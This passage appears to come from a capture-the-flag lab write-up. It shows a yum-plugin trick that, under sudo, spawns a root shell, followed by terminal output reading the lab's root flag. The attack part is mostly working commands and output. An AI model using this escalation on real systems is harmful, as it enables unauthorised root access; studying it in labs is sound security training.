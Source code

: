 ```
cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

Note: the python script says os.execl NOT os.exec

After this process I had root access

```
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y                                                                            
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
sh-4.2# pwd
/home/jjameson
sh-4.2# cd
sh-4.2# pwd
/root
sh-4.2# ls
anaconda-ks.cfg  root.txt
sh-4.2# cat root.txt
eec3d53292b1821868266858d7fa6f79
sh-4.2# Connection to 10.10.135.177 closed by remote host.
Connection to 10.10.135.177 closed.
```

